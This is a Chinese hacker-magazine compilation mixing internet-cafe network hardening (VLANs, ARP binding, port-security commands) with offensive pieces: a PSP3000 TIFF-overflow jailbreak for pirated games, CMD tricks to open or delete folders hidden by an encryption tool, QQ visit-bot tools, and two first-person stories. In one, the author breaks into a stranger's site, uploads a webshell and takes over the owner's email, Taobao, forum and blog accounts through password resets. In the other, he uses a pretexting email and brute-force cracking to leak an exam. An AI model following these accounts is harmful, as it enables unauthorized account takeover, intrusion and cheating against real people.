VLAN 的机制就是在二层交换环境中对三层广播域的一个隔离，优点是不受物理限制。这样有很多好处，比如防范 ARP 欺骗。划分多个 VLAN 可以使 ARP 广播包的范围得到缩小，这样从硬件方面来讲提高了整个网络的安全性。如图1所示就是我自己在 NetBoson 里面随便划分的一个网络拓扑图。因为 VLAN 的划分，可以限制 VLAN1 中的机器访问 VLAN2、VLAN3 及 VLAN4 中的机器，这样可以有效防范 ARP 欺骗及病毒扩散，将出现安全问题的机器缩小到一定范围内，方便排除故障和解决问题。

但是作为网吧，我们不可能为了安全而不考虑效益。试想一下，如果我们划分 N 个 VLAN，那么单纯的局域网游戏就不能玩得很爽了，比如 CS（虽然现在很多人都爱上了特种部队）。所以为了安全和效益，我们可以将网吧分区：高配置电脑分配为游戏区，并且将 VLAN 内的机器数设置得多一点；而低配置电脑，每台计算机都可以划分为一个 VLAN，用于上网娱乐。

而路由一般情况下我强烈推荐使用软路由。如果使用硬件路由器，一方面不能很好地进行网络扩展，毕竟我们不知道以后会不会增加机器；另一方面对于攻击不能提供比较好的安全保护。对于软路由一般来说都是使用 m0n0，它是基于 FreeBSD（比 Linux 网络功能更强大的一种操作系统）的软件，就安全方面来说其强大的防火墙及日志记录功能都值得我们一用。

#### 二、ARP欺骗——局域网之痛

ARP 欺骗是很多小菜都喜欢使用的一种攻击方法。局域网的 ARP 欺骗本质上就是通过欺骗 ARP 缓存来达到欺骗网关的目的。对于这种攻击的防范，我们只能尽量减少，但却不可能将它彻底消灭，原因很简单——ARP 欺骗并不是一种漏洞，它和 DDOS 一样，是一种协议缺陷。通常来说我们可以使用以下几种方法来进行防范。

##### 1、在客户机上绑定 IP 与 MAC 地址

在命令行下通过“arp -a”获取 IP 地址与 MAC 地址的对应，然后使用 `arp -s 本机IP地址 本机MAC地址` 进行绑定。这是一种最简单的方法，上面我已经提到了，ARP 欺骗就是欺骗网关，所以我们还要使用 `arp -s 网关IP地址 网关MAC地址` 将网关的 IP 与 MAC 进行绑定。

当然网上也有很多这类脚本文件，但这里有一个关键问题，就是如何让机器执行这个脚本。我觉得还是将它添加到系统的开机自启动中。如果是将所有开机运行程序都保存到服务器上，一定要注意将服务器上的文件夹权限设置为“只读”。我们知道 Windows 是一种基于会话验证实现共享的系统，如果每次开机都自动去下载程序，那其显然就绕过了验证过程；如果权限没有做好，也就意味着客户机可以轻松搞定服务器。

##### 2、在交换机上绑定 IP 与 MAC 地址

在整体架构中提到了 VLAN 的划分，如图1所示的拓扑结构在模拟器中根本不容易练习，毕竟 NetBoson 是一个比较老的东西了，用于学习还可以，所以这里我们只简单提一下真实环境中的一些关键命令。

```bash
# mac-address-table static xxx.xxx.xxxx vlan 1 interface e0
```

目的：配置静态 MAC 地址绑定表。这里的 MAC 地址我使用了 `xxx.xxx.xxxx` 来表示，一定要注意格式，它不像 CMD 显示的那样，而是用点隔开，方式类似于 IP 地址的点分式。

```bash
# interface e0
```

目的：进入 e0 接口的配置模式。

```bash
# switchport port-security
```

目的：启用 e0 口上的端口安全性，可以输入 `switchport ?` 查看具体的使用参数。

```bash
# switchport port-security maximum 10
```

目的：最多只允许 10 台机器与此端口进行通信，可以根据需要进行设置，不过其它主机的配置要与这些端口一样才可以。当端口接收到不在静态 MAC 地址中的地址时，就会导致地址违规，这样就可以让 ARP 欺骗失效了。

```bash
# switchport port-security violation protect
```

目的：将端口设置为保护模式，此时攻击者是无法访问该端口的。注意：使用这种方法的前提是进行了客户机上的 IP 与 MAC 地址绑定，不然是行不通的。

##### 3、使用 ARP 欺骗防范工具

AntiARP 防火墙是一款非常不错的防范 ARP 欺骗的工具，强烈建议安装使用，当然最好是多种防范方法共同使用。

#### 4、其它方法

我们通常习惯使用上述三种方法，但其实还有很多别的方法，比如搭建一台 VMPS 服务器，但是其价格实在是太 high 了。构建多层交换网络有 VLAN，自然也就不会有人使用 VMPS。对于网吧来说我想一定是这样的，当然我们还可以使用 MAC 地址访问控制列表，鉴于篇幅这里就不再说明，有兴趣的朋友可以到网上寻找一些相关资料。

#### 三、网吧服务器与客户机的系统设置

客户机就目前来看一定是 Windows 系统，甚至使用 Vista 系统的网吧都很少，可以说 XP 是网吧客户机的主流系统。服务器操作系统可以选择 Linux 或者 Windows。Linux 比较稳定，同时可以安装虚拟路由，但是相对来说不如微软 Windows 服务器简单。不熟悉 Linux 系统的朋友可以参看一下《X档案》杂志上的 Linux 文章，针对 Windows 客户机及服务器的设置我有如下几点说明。

##### 1、权限

权限设置一般包括磁盘、特殊程序、注册表、服务等四个项目的设置。针对磁盘、特殊程序、注册表的权限设置，大家可以查看以前的《X档案》。这里一定要注意服务的权限设置，这个世界上最可怕的东西就是“冒充”，就像 HD 开头的假币一样！

首先在“开始”→“运行”栏中输入 `mmc`，打开“控制台”，然后选择“文件”→“添加/删除管理单元”，点击“添加”按钮，选择“安全配置和分析”。关闭退出后控制台里就添加好了“安全配置和分析”模块，然后我们在“安全配置和分析”上点右键选择“打开数据库”，随便输入一个数据库名字，在弹出的对话框中选择一个 `.inf` 文件。退出后在“安全配置和分析”上点右键选择“立即分析计算机”，如图2。

最后我们点击“系统服务”，对一些特殊服务选中后点右键并选择“属性”，比如要操作 alerter 服务，点击“编辑安全设置”，在弹出的对话框中将 Everyone 用户删除。针对这个服务我们可以不给任何权限，这样有的程序想通过冒充系统服务而运行就不可能了，如图3。

#### 2、IPSEC安全策略

这是 Windows 中比较好用的功能，在“运行”栏中输入 `secpol.msc`，在最后一项就可以看到它。使用它的目的是可以对一些 IP 协议进行过滤。在服务器上可以使用它来关闭一些不必要的端口，使用这种方法比较方便快捷。

##### 3、杀软的安装

在服务器上安装杀毒软件，最好是使用麦咖啡或者诺顿，它们的杀毒方式是启发式。因为服务器通常不会安装过多应用程序，所以误杀问题基本不存在，如此好用何乐而不为呢？

不管是服务器还是客户端的安全设置，都和一般个人电脑安全设置基本一样，在《X档案》以前的文章中已经有相当多文章讲述了这方面内容。当然它与个人电脑还是略有不同的，网管朋友最好找一些母盘制作的文章来看一下。

#### 四、IE与恶意程序的防范

针对 IE 的安全防范有很多方法，这里我结合 DNS 来介绍一下屏蔽某些网站的意义。网络上的每台主机都有一个 IP 地址，大部分服务器都有一个 Domain Name 域名，IP 地址与 Domain Name 的转换就需要通过 DNS 服务器来进行解析。但是在 DNS 协议出现之前一直是由 hosts 文件来完成这个任务的。DNS 协议产生后，hosts 文件并没有被一下子抛弃，每一次 DNS 请求之前，总会先查看本地的 hosts 文件（对应 Windows 系统中的 `%systemroot%/system32/driver/etc/hosts` 或 Linux 系统中的 `/etc/hosts`），如图4所示就是我 Linux 系统中的 hosts 信息。

不管是在 Linux 中还是 Windows 中，我们都可以通过“127.0.0.1 www.xxx.com”的方法来屏蔽一些恶意网站。当然这种方法并不好，因为恶意网站会越来越多，我们的 hosts 文件也会像病毒库一样越来越庞大，这样会对网速带来问题；同时恶意网站随时随地出现，我们不可能最早获取这些信息，而且更新也比较复杂。所以网吧 IE 的安全问题，最好的方法就是在制作母盘的时候安装一个第三方浏览器，比如 GreenBrowser、Firefox 等，不过这都是一些基本设置而已，最有效的方法就是建立 Windows 补丁服务器 WSUS。

对于恶意程序的防范，我们还是使用老方法——IEFO（映像劫持）。这里为了方便，我编写了一个小程序，程序运行后如图5所示，选择要进行的操作，比如选择 1，然后输入程序名字，这里我输入 `netcxc`，然后回车后再运行 `net user` 就会找不到文件了。如果要恢复运行程序就输入 2，然后输入要恢复的程序名就行。程序虽然简单，但是省得我们再去手动修改注册表了。

不过这是一个地球人都知道的方法了，所以我们需要对注册表编辑器进行一些权限设置，只给 Administrator 和 System 用户有权限，同时母盘制作的时候添加一个新的账户，将文件所有权给新添加的账户，这样可以防止有人通过修改权限来实现访问。不过这只能忽悠一些菜鸟，因为众所周知，Windows XP 系统的 System 权限可以轻松得到。攻防是一个虚拟的名词，真正的对抗还得看攻击者与防范者的知识储备或者说技术能力！

#### 五、U盘病毒的防范

网吧是一个移动存储设备的高使用区域，所以 U 盘病毒也就成了一个防范关键点。

- 1. 禁用自动播放

在“开始”→“运行”栏中输入 `gpedit.msc`，打开组策略，依次定位到“用户配置”→“系统”→“关闭自动播放”，如图6。双击打开设置，选择“已启用”，在下拉菜单中选择“所有驱动器”，确定退出就可以了。

##### 2、建立 Autorun.inf 文件夹还有用吗？

很多书上和网站上都说使用 `md autorun.inf && cd autorun.inf && mkdir ..\`，通过建立畸形目录来实现 U 盘病毒的防范，但是病毒在我们建立畸形文件夹的同时也很可能通过 ShellExec 一条 CMD 命令就可以删除它，所以 U 盘病毒的防范还得将客户机的权限做足了才行！也就是说建立完畸形文件的同时，为了保险起见，再对它进行一下权限设置，设置完成后将该文件夹的所有者修改为 system，这样就无法再通过 cacls 命令修改它的权限了。


#### 六、还原机制与机器狗的对决

机器狗等病毒的“随风潜入夜”，打破了网吧还原机制的安宁，不过现在网上也出现了大量的驱动级防火墙，而且有很多已经集成到一些网吧专用软件里，比如网维大师。另外，MAX 网吧安全卫士是一款不错的驱动级防火墙，这个软件也分客户端与服务端，将客户端安装到客户机的母盘中，在 sercon.ini 文件中将 Serverip 的地址设置为服务端就可以了。

网吧安全其实只有两个重要的环节：一是多层交换网络的架设，从物理结构上将安全因素考虑进去；二是客户机母盘与服务器的安全设置，这属于系统安全的范畴，因为在以前的文章里都有过介绍，这里就不再过多重复了！

> （本文涉及到的 antiarp 防火墙、作者写的小程序 keyok 已收录到光盘中）


### 查看网页源代码的三种方法

大家玩过黑客网页游戏没有？想挑战网页黑客就得学会查看网页源代码，最常用的就是在浏览器中直接选择“查看网页源代码”就行了，但是有些时候这种方法却也不能见效，以下就介绍三种简单的方法。

- 1. view-source 法
- 2. JavaScript 法
- 3. 工具法

使用方法：在浏览器的地址栏中输入 `view-source:网址`，回车后就可以看到网页的源代码了。

```text
view-source:网址
```

使用方法：在浏览器的地址栏中输入 `javascript:s=document.documentElement.outerHTML;document.write('');document.body.innerText=s;`，回车后就可以看到网页的源代码了。

```text
javascript:s=document.documentElement.outerHTML;document.write('');document.body.innerText=s;
```

使用方法：打开站长工具的查看网页源代码页面“http://tool.chinaz.com/Tools/PageCode.aspx”，输入你想要查看源代码的网址查询就可以了。

```text
http://tool.chinaz.com/Tools/PageCode.aspx
```

### 暴力宣传之让你的QQ空间流量猛增

无敌小龙


QQ 空间虽然开了好长时间，可是却看不到什么流量，作为一名小黑是无法容忍的；所以我们要换个思路，来刷爆自己的空间流量。在开始刷空间流量前，首先要在访问权限中设置为对所有人开放，如图1。


然后打开一款名为“QQ空间免费踩踩器”的工具，单击主界面中的“随机互踩”按钮，在出现的窗口中勾选“全自动互踩指定空间”，这样就可以随机访问别人的空间了（前提是你要先登录自己的空间，这里随机访问的空间就是左侧 QQ 号码所对应的空间），如图2。


由于 QQ 空间免费互踩器只能够踩指定的 QQ 空间，功能还不够强大，我推荐使用另外一款功能类似的工具，名为 QQ 踩空间大王，它可是专业化的踩空间软件。打开该工具，首先登录你的 QQ 空间，如图3。

接着填写你要访问的 QQ 空间范围，我填写的是从 5450913（我的 QQ 空间）到 999999999，然后设置好访问频率为 6000 毫秒也就是 6 秒钟，最后单击“开始”按钮就会自动踩空间了，如图4。


此时，来到踩过的空间中（首先退出你的 QQ 登录身份），可以看到你已经在别人空间的最近访客列表中了，这样就大大增加了你的空间曝光率，如图5。

### 傻瓜黑客


图6


图7

我再来介绍最后一款功能类似的软件，名为 QQ 空间全能王，它的特点在于可以刷取和访问指定类型的 QQ 用户的空间，首先在软件中登录你的 QQ 空间，然后选择你要访问的城市达人的 QQ 空间，最后单击“搜索”按钮，就会自动列出当前页面的所有城市达人的 QQ 号码，如图6。单击“开始踩踏”按钮就可以自动访问城市达人们的空间了，如图7。相信这样的访问方式会让你找到很多志同道合的朋友。

（本文所涉及到的“QQ空间免费装饰器”、QQ 踩空间大王、QQ 空间全能王已收录到光盘中）

### 小菜也能用VPN隐藏IP

无敌小龙

经常在网上冲浪，难免会暴露自己的信息，比如我就非常反感被查到 QQ 的 IP 地址，弄得一点儿上网的隐私都没有。那么如何来隐藏 IP 地址呢？大家可能都会说使用代理服务器，只是现在的代理服务器也越来越少了，并且能够长期稳定提供服务的代理服务器更是凤毛麟角，于是我就开始在网上查找解决的方法，这样本文的主题也就出来了，就是使用 VPN 上网，隐藏 IP 地址。

> **小知识：什么是VPN呢？**  
> 简单地说，VPN（Virtual Private Network，虚拟专用网络）是指在公用网络（INTERNET 网络）上所建立的企业内部网络，并且让企业内部拥有与专用网络相同的安全、管理及效能特性。


图1

本来使用 VPN 也要使用到 VPN 服务器的，并且网上提供的 VPN 服务器一般都是要缴费的，这里我推荐使用 Hotspot Shield Launch 这款工具。软件安装后，在托盘处会显示一个图标，右键点击这个图标，就可以弹出快捷菜单，单击其中的 Connect 连接按钮，就可以启动 VPN 连接了，如图2。同时，如果单击 Properties 属性菜单就会弹出一个 IE 窗口，自动浏览 http://127.0.0.1:895/config/，从这个 IE 窗口中可以看到当前的 VPN 连接信息，如图3。

现在，单击软件的 Connect 连接按钮，然后访问“http://www.ip138.com/”，可以看到我的 IE 已经是通过 VPN 来连接网络了，如图5。可以看到其中显示本机在 VPN 网络中的 IP 地址为“10.121.144.169”，这个 IP 地址其实就相当于 LAN 局域网的 IP 地址，我们在 CMD 下输入 IPCONFIG 命令查看本机的网络连接，也可以看到其中的以太网（局域网）IP 地址为“10.121.144.169”，如图4。

我们并没有设置 IE 的代理或者使用其它的服务就轻松实现了 VPN 连接，实现了 IP 的隐藏，是不是非常方便呢！再来看看 QQ 中的效果，当对方使用彩虹 QQ 查看我们的 IP 地址时，就会显示为美国的 IP 地址，这个 IP 地址也就是 VPN 服务器的外网 IP 地址了，这样我们就不会再担心自己的 IP 地址会被泄露，在上网过程中没有个人隐私了，如图6。

如果我们暂时不需要使用 VPN 服务器连接网络，也可以使用软件的 Disconnect 断开和 VPN 服务器的连接，这样我们在使用 IE 浏览网站、登录 QQ 时的 IP 地址就又还原了，如图7。


图2


图5


图3


图6


图4


图7

> （文章中涉及到的 Hotspot Shield Launch 请到官方论坛来下载）

### PSP3000破解全攻略

丛林


PSP3000 近日终于被人破解了，刚好暑假也快要到了，喜欢玩游戏的同学可以买台全新的 PSP3000 好好地放松一下了，今天我就教大家如何破解 PSP3000，首先来回顾一下 PSP3000 几次重要的破解进度。

从去年10月上市到去年年底可谓是毫无进展，大多是各种虚假的炒作和虚假的新闻，例如蓝电事件还有一些人公布假视频，唯一的破解方法只有硬件破解——将 PSP2000 的 CPU 换到 PSP3000 上并且要通过电视输出才可以玩游戏。直到今年1月，爆冲赛车游戏爆出存在存档漏洞，之后利用此漏洞编写的 Hello World 程序也出现了，一时间爆冲赛车游戏就卖到了天价……

在3月23日，有人发现 PSP3000 可能存在 tiff 漏洞，TIFF 图像文件格式是个漏洞百出的格式，在 PSP1000、PSP2000 和 PS2 乃至安全性最高的 PS3 上都出现过 TIFF 漏洞……希望继续保持这种“无畏精神”，在今年十月上市的 PSP GO 也继续支持 TIFF 格式吧。再之后 MaTiAz 制作了能够显示出 Hello World 提示的 TIFF 图片，至此 PSP3000 破解出现了希望，看到了曙光。

沉寂了一段时间，全世界的焦点集中在一个15岁的小孩身上——Davee，5月初放出了 ChickHEN 自制系统，然后又放出更新的 ChickHEN R2 自制系统。ChickHEN R2 可以运行多数模拟器和一些自制软件，只是还不能运行 ISO 游戏，这已经让拥有 PSP3000 的玩家兴奋不已了。

5月26日，PSP2000 TA88V3 型号终于宣告破解，这个破解基本就可以断定 3000 离破解不远了，因为这两款型号很多加密地方都如出一辙。

6月5日，PSPGEN 小组公布了一段视频，视频内容大致是 PSP3000 在 ChickHEN R2 的基础上运行了一个东西，然后可以支持 ISO 游戏了，并声称为了庆祝网站四周年要在24小时放出破解文件……

按照法国时间算法截止24小时也就是中国凌晨2点，我熬到2点还是没看到消息，就郁闷地进入了梦乡……到了8点10分的时候突然感觉网站有点卡，心想：出来了！出来了！等待了一会网页终于有 5.03GEN for HEN-A 的下载了……

现在就开始介绍如何破解吧，前面废话我也说的不少了，破解大体分为三个步骤——1、刷官方5.03系统，2、安装 ChickHEN R2 自制系统，3、安装 5.03GEN for HEN-A 自制系统。


图1

#### 一、刷官方5.03系统

由于这个漏洞是在5.03下发现的，所以必须先升级到官方的5.03版。目前 PSP 的最新版本是5.51，如果你之前不小心刷了5.50或者5.51版，由于刷 PSP 官方系统只能升级不能降级，所以此次的 PSP3000 破解就与你无缘了。不过近日有黑客在5.50系统下貌似也发现了 TIFF 漏洞，如果黑客们努力的话，相信过段时间就会出现5.5系统的破解工具。目前只能眼巴巴看着别人的 PSP3000 玩盗版游戏了。好在目前市面上出售的 PSP3000 基本都低于5.03系统，我看到的有4.21、5.01、5.02等，我买的这台是4.21的系统，如图2。所以第一步首先要刷成官方的5.03系统，如果你的系统是5.03的话就请直接看步骤2，如果商家卖你真的是传说中的5.50系统的话，在目前没破解的情况下，一定不要买。

首先下载官方的5.03系统文件，文件名为 EBOOT.PBP，拷贝到记忆棒的 `psp\game\update` 目录下（如果没有 update 文件夹就自建一个），拷贝完拔掉数据线，确保电量充足，刷机的时候最好不要连接电源（如果突然断电很容易变砖哦）。

在 PSP 系统里，进入游戏——memory stick 下，可以看到多出一个图标，右边文字提示 psp 升级版本5.03，如图3。运行它，然后选择开始升级，接下来就会出现使用协议，如图4。按右方向键继续，又会提示是否接受本协议，按下方向键选择接受，再按右方向键进入下一步，按下提示升级过程中不要关闭主机电源等提示信息，如图5。


现在按 X 键就开始升级了，升级进度到百分之百后就升级完毕，接下来屏幕提示按 X 键重新启动，如图6。有些人不好好看提示把机子强制关机结果就变砖了，所以这里要老老实实地按 X 键，PSP 将自动重启。接下来我们再看版本信息，点击主机设定——系统信息，可以看到已经是5.03了，如图7。


#### 二、安装 ChickHEN R2 自制系统

将 PSP3000 连接到电脑，解压 ChickHEN R2 系统，会看到一个 h.bin 文件和两个文件夹，将 h.bin 拷贝到记忆棒的根目录，再将 slim 下的 chickhen 文件夹拷贝到 psp 的 picture 文件夹，可以看到这里就有5个图片，前4个是正常的 GIF 图片，图片内容是鬼鸡蛋，还有一个 slim.tiff 文件就是经过修改的特殊 tiff 文件。

拔掉数据线，接下来就是访问这个 TIFF 文件，运气好的话就会溢出成功，在 PSP 的照片功能里可以看到 chickhen 文件夹，如图8。接下来就是考验人品的时刻了，进入这个文件夹后按住下键，访问最后那个 slim.tiff 文件，如果此时系统花屏然后自动重启就说明成功了，如果此时系统死机就说明失败了。不过不用担心变砖，变砖的几率是无限接近于0的，大胆地尝试就好了。……将文件设定选为第二项的 multilingual latin 1(850)，如图9。

- 1. 进入文件夹后啥也不按，系统会自动载入缩略图，当载入到第五张时会访问溢出代码。  
- 2. 进入文件夹后按住下键到第五张后松手。  
- 3. 进入文件夹后一直按住下键不松手。


> #### 小知识：什么是TIFF格式
> TIFF（Tag Image File Format）是 Mac 中广泛使用的图像格式，也由 Aldus 和微软联合开发。它的特点是图像格式复杂、存贮信息多，适合高质量图像保存与复制。该格式有压缩和非压缩两种形式，压缩可采用 LZW 无损压缩方案。

#### 三、安装5.03GEN for HEN-A自制系统

不要关机，继续安装 5.03GEN for HEN-A 系统，把 PSP 连接到电脑，解压 5.03GEN for HEN-A 系统包，运行 LAUNCH-ME.exe，如图10。先声明一点，由于这个程序是 .NET 写的，运行之前一定要确保电脑已经安装了 Microsoft .NET Framework 2.0，否则程序无法运行。……然后点 start 按钮，软件会往 PSP 里写入几个文件。


接下来在 PSP 里操作，可以看到多了一个程序图标，提示文字为 installer-loader。我们运行这个程序，运行后如图11，出现英文提示，意思是按 L 键或者 R 键刷写你的系统，刷完后按 O 键重启系统。……这时候看系统版本已经是 5.03 GEN-A（FULL），如图12。


现在就可以玩 PSP 游戏了，数据线连接电脑，将 PSP 游戏（扩展名为 iso 或者 CSO）拷贝到记忆棒的 iso 文件夹。……在主界面按 select 键启动 gen.vsh menu，如图13。在 UMD ISO MODE 里切换到 M33 DRIVER 模式即可，按下退出就可以尽情地玩游戏了。


图13

接下来还要说重要的几点，由于整个破解是基于内存的操作（还记得我前面说的整个破解过程变砖率无限接近于0吧），在 PSP 关机再开机后会发现系统又还原到5.03的状态，只要再重复步骤二和步骤三即可，并且在步骤三不用再按 L 或 R 键，直接按下 ○ 键即可。所以为了避免麻烦就尽量不要关机，轻按一下开关键即可，很多人误以为轻按开关键是关机，实际只是待机，开关键推到上面停留5秒钟才是真正关机。还有就是在破解系统下尽量不要安装一些修改 flash0 的操作，包括使用一些自制主题等操作，毕竟安全第一，由于目前无法制作神电（难度很大），所以一旦失败就彻底变砖。

> （本文所涉及到的 Microsoft .NET Framework、官方5.03系统、ChickHEN R2系统、5.03GEN for HEN-A 系统已收录到光盘中）


### 另类破解精锐神秘文件夹

零零柒

在今年第4期的杂志中，有一篇名为“轻松破解精锐神秘文件夹”的文章，里面的技巧真是让人赞不绝口，可惜的是破解方法少了点，那有没有更多的方法呢？答案是肯定的。今天，就让我给大家讲几个破解精锐神秘文件夹的另类方法，再加上第4期的方法做到彻底破解！

话说一天我闲着没事做，坐在电脑前研究文件免疫，我首先使用 CMD 的 md 命令制造出了个模仿文件免疫的文件夹，其文件夹的全名是“我是被免疫的文件夹...\”，然后在桌面新建了个文本文档全名是“成功.txt”，内容是“恭喜！”，最后用 CMD 的 copy 命令把“成功.txt”复制到“我是被免疫的文件夹...\”里，如图1。


图3


图1

#### 破解方法1

本打算利用 DIR 命令扫描“我是被免疫的文件夹...\”里究竟可不可以扫描到“成功.txt”，可是返回的结果却是“系统找不到指定的文件”，我怀疑是不是自己输入错误了，就在“\”前加多个点，返回结果还是“系统找不到指定的文件”，真是令我大失望，如图2。


图4


图2

然后我又继续研究着，感觉太无聊了，简直要抓狂了，就用鼠标对着电脑点来点去、拖来拖去，突然我想到这可是我的爱机呀，好吧，我停，我不折磨你了，关机好了！突然间我发现本来只有一个“我是被免疫的文件夹...\”却变成了两个……大家可以看见其中一个的名称最后有一个点，而另一个却没有。我试着打开，奇迹出现了，两个都打开了，可是却发现里面有一个本来在桌面的东西跑到了里面，而且两个文件夹里都有；如图4，但是“成功.txt”文本不在里面。

这时候我突然想到一定是我折腾爱机的时候把它拖进来的，先不管这个，那么打开是不是就意味着可以进行扫描呢？我在 CMD 下输入“Dir 我是被免疫的文件夹...\”，可以扫描到，但只扫描到了刚才从桌面拖进去的东西。好吧，我又在“\”前加多个点，哈哈，竟然可以扫描到“成功.txt”文本了，如图5。

破解思路慢慢地浮出了水面，既然“Dir 我是被免疫的文件夹...\”（注意是3个点）可以扫描得到，那么在没有把文件拖进去之前用 CMD 的 md 命令创建一个名为“我是被免疫的文件夹...\”（注意是3个点）那会有什么结果呢？现在来试验一下吧……

被免疫的文件夹...\"（注意是3个点）可以打开，而且内容是“我是被免疫的文件夹...\"（注意是2个点）的内容，但“我是被免疫的文件夹..\"（注意是2个点）是不可打开的，如图7。


这里需要注意的是，它们的实际路径和名称就是那些被免疫或加密的文件夹后面的点。例如一个已经被加密的文件夹的实际路径是“1..\"，可是在显示出来时文件夹名称却是“1.”（会依次减少一个点）。所以利用这个方法破解时，创建文件夹可用`md`加文件夹名并补点与反斜杠。

#### 破解方法2

上面已经说过可以`copy "成功.txt"`进去，也可以拷贝回来。但在别人已经加密的情况下，不知道被加密文件夹里有什么，就需要使用这种格式：`copy 被加密的文件夹..\*.* 需要复制出来存放的文件夹`。这里同样要注意实际路径和名称问题。

#### 破解方法3

知道实际路径后，在CMD下可以用：`start 被免疫或加密的文件夹的实际路径`。破解“精锐神秘文件夹”的思路与普通文件免疫类似。若有不需要的加密/免疫文件夹，可使用`rd 被加密或免疫的文件夹..\ /s`，再按“y”删除。


### 又见社工之一个站长的故事

风云春秋（B.S.T）

社工背景：本来是要找娱乐网站空间设计资料，在百度搜索到一个娱乐网站，被其风格吸引。随后尝试常见后台路径（如admin）与默认密码未果。前台新闻提到突破点：发布作者使用网站域名，推测密码和用户名可能与域名相关。


进入后台后有数据库备份，容易拿到webshell，传ASP打包木马并准备带回。后来在网站配置里看到站长邮箱，进一步搜索该163邮箱，得到站长QQ号码（如图2）。


习惯性在网址后加Admin发现默认后台；随后继续通过社工信息关联站长身份与联系方式，形成后续渗透线索。

### 傻瓜黑客

得到QQ号码后在空间个人档案里面找到一些站长个人资料，整理了一下，顺便也社工到了他女朋友的资料，如图3！


整理下思路，首先决定从163邮箱入手，输入用户名后试着用生日、手机号、QQ号组合做密码都没有成功。那就利用老办法点击“忘记密码”，进行找回并修改密码，如图4！在找回密码这个环节真是老生常谈了……

资料是生日两个哦？那就一个一个试，人品不错第一个就正确了。可是到了这步，请回答问题：5252709……电话号码还是别的？但是第一感觉告诉我不要忽略了“问题和答案就是一个母体”这个思维哦！事实证明我的猜想是对的，就这样顺利修改了邮箱密码，如图6。


随便翻阅了里面的邮箱邮件，看到了不少应聘的文件，当然还有一些重要的文件（图7）和淘宝、各大银行的账号等等，如图8。既然淘宝账号用这个邮箱注册的，那么就去社工淘宝的密码，试着用手机号码、生日号码输入密码，可是不成功哦。然后点击找回密码，过程这里一笔带过。就这样系统提示申请成功提交，淘宝已经发送到163邮箱，如图9。进入邮箱找到淘宝发来的邮件，如图10，这下密码修改成功，接着登录淘宝网，如图11、图12。


和支付宝是绑定一起的，马云老大真会做生意。下一步就是社工支付宝，也是用这个163邮箱做的账户，还是老办法邮箱找回再修改密码，如图13。

打开邮箱找到支付宝发来的邮件，还需要回答问题，这个问题在社工的时候没有找到可利用的资料，那就随便猜解几个吧：姚明、科比、乔丹，如图14。猜解了三个错了一对半。最后还是没有猜解对，算了这个不去社工了。转移社工目标去社工QQ，居然也没成功，那就用申诉找回密码，申诉的时候发现密保邮箱也是这个163邮箱，在此不再截取申诉图片了！


刚要结束社工的时候，忽然看见网站还有个论坛，正好去社工试试，拿着邮箱用户名来论坛尝试登录，居然也登录进去了，而且还是admin权限，如图15。这时思维又活跃起来，如果用163邮箱用户名去搜索引擎中搜索一下，看看有什么意外收获，居然找到此站长的网易博客，如图16。

登录博客的密码和邮箱的密码是一样的，很轻松就成功登录了。建议网易以后要分开验证密码，独立设置博客密码，如图17。

至此不再继续下去了，邮箱里面有各大银行的账号（很诱惑人吧），我怕我再社工下去情不自禁……那个时候引来警察叔叔那就不好玩了，我已经通知了这个站长。此文再次给大家敲响了一次警钟，也希望大家在平时的网络中不要疏忽自己的一些隐私，要不会因为这些小的疏忽而引起不必要的麻烦哦（PS：此文不是教大家搞破坏的，因此文出现的种种法律责任本人概不负责）！

### 傻瓜黑客

### 一次考试引发的WPS血战

风逝水


这天，小菜我正在网上闲逛，突然QQ上有人找我，一看不要紧，没想到引发了一场血战WPS的事件（如图1）。现在的孩子真不知道怎么想的，考试题目弄出来，已经是很有本事了，居然还找别人破解……


既然是答应别人了，就只能硬着头皮上了。因为自己也没用过WPS方面的工具，那么最直接的方法就是问百度大哥了……先将就着分析下吧。

看完了网上的雷同贴，总结了下，看上去最有效的方法就是工具破解。其实跟我想的一样，这种加密的文件，除非有漏洞，否则破解就是爆破……

首先拿出EdwardsWPS2000PasswordRecovery，这是一款国产专门针对WPS2000的穷举暴力破解软件（如图2）……最后点击“run”……谁知道弹出个“这不是WPS2000的加密文件”（如图3）。


首战失败，我又只能在网上转悠了。无意中点开一个页面，发现这样一段话（如图4）。看来金山公司的服务还是蛮周到的，居然为忘记密码的用户提供破解服务，这样看来，我需要的就是一次小小的社工了。


您好，首先说麻烦您了，我是学校的一名初中老师（那个MM是初中生），一直用金山公司的WPS办公软件……（社工邮件正文）

今天碰到一件事情，需要麻烦您。过两天我们学校要举行月考……我上网寻找解决办法，发现没有有效的方法……给您写了这封邮件，希望您可以帮助我……（如图5）。


感觉自己编的还是挺像样的，希望这次社工能取得好的效果。社工毕竟不是实时进行的，邮件发过去了，但是我没有得到密码……于是继续在网上转悠，目标是金山公司的论坛。

到了论坛上转悠才发现，原来忘记密码的人挺多的，但是貌似都没有解决……最后终于让我找到了有效的办法。有人提供了解密WPS的工具，于是我赶快下载，操刀试验……

本格式已经和Word相同，所以这个软件是通用的。打开文件（因为是比较出名的软件，所以已经有汉化版本，如图7），有了这个宝刀，我几乎都要笑傲江湖了。


打开文件，程序就会自动开始工作（终于找到个可以运行的了，也算是见到了曙光，如图8），不用管它，我们跟朋友聊聊天，现在真的就是时间问题了。不愧是专业工具，不一会儿，密码就出来了（如图9），这个密码不算很强壮，也算很长了，幸亏电脑好，要不不知道要等到什么时候了。因为我电脑里也没有WPS软件，所以就不能打开看看现在的考试流行出什么题了，赶快呼叫MM，任务完成了。

（本文所涉及到的EdwardsWPS2000PasswordRecovery、金山WPS系列普通型加密文件恢复系统、Advanced Office Password Recovery Professional Edition已收录到光盘中）

## 不借助工具来保护VISTA下的个人隐私

阿傻

本小菜是个标准的菜鸟，看到高手们在杂志上发表自己的文章，啧啧羡慕啊，但无奈技术不过关，第一次投稿，只能写一些有关系统隐私保护设置的技术含量低的知识，见笑！

### 一、用注册表来清除通知区域过去的项目来保护隐私

相信大家不少都用了VISTA系统，VISTA和XP一样会在系统盘显示目前正在运行的程序图标，并自动隐藏最近未用的图标，这样就可以保持通知区域的整洁；但是，系统托盘内的通知区域很容易泄露用户的隐私。

